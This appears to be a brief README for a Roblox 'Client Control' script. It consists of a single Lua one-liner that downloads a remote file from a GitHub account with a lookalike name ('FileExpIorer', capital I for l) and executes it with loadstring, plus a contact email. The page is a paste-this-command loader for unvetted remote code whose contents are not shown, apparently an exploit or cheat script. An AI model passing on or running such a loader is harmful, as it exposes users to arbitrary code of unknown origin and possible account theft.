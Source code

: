 # Roblox
## Client Control

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/FileExpIorer/LuaU/main/Api/commands.lua"))()
```

Email:

- FileExpIorer@proton.me
